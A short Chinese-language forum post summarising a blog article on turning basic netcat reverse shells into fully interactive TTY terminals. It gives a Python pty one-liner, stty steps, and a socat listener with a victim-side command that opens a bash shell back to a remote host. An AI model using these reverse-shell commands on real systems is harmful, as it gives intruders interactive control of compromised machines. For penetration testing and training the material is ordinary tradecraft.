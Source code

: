 #升级简陋的 Shell 到完美交互的 TTYs 终端

tags: #姿势#, 

升级简陋的 Shell 到完美交互的 TTYs 终端

[Upgrading shells to fully interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) 

这篇文章很赞，以前我们反弹回来的 NC Shell，操作实在太过简陋，一个命令输错就意味着丢失 Shell，没历史，没 Tab，没 Vim，就是个最最简陋的 Shell。

反弹技巧不少，这里先不谈，有的是能得到完美的 TTYs 终端，这篇文章第一个方式其实也简单提了，虽然还不完美。

文章介绍了三个技巧，如下：

Using Python for a psuedo terminal

python -c 'import pty; pty.spawn("/bin/bash")'

Using socat

#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444

Using stty options

# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>

我想精于 Linux 的同学应该还会有其他更好的技巧吧？😏

![image_48844182585518](/assets/48844182585518.jpeg)

![image_88855184282212](/assets/88855184282212.jpeg)

![image_51122814515584](/assets/51122814515584.jpeg)

[comment]: <> (topic_id:88858581481442)

[comment]: <> (create_time:2017-07-11T07:02:50.183+0800)

[comment]: <> (topic_type:talk)

[comment]: <> (owner:781244882_余弦)

